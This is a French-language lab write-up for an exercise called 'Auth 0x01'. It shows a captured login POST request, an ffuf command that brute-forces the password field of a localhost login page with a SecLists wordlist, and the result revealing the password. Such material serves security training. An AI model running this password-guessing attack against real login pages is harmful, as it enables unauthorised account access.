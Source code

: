 # Auth 0x01
## preuve:


![Texte alternatif](Auth_0x01.png)
## Explication 
1- Il faut récupérer la request de la page login via Burpsuit, ensuite enregistrer la request en .txt :
```
POST /labs/a0x01.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/a0x01.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=FUZZ
```
 La section qui nous interrese est ```username=jeremy&password=FUZZ```, j'ai remplacé le mdp que j'ai rentré lors de ma requet par ```FUZZ```

Une fois ceci fait, j'ai procéder a une attaque brute force via une wordlist télécharger préalablement, voici les etapes :

  ## Lancé un terminal 
  
  
```
ffuf -request req.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814 

```
### et voici le resultat
```
  letmein  [Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 17ms]
		:: Progress: [10000/10000] :: Job [1/1] :: 298 req/sec :: Duration: [0:00:37] :: Errors: 0 
```
	
Je peux voir dans le resultat de la commande que un mot de passe a été trouvé : ```letmein```




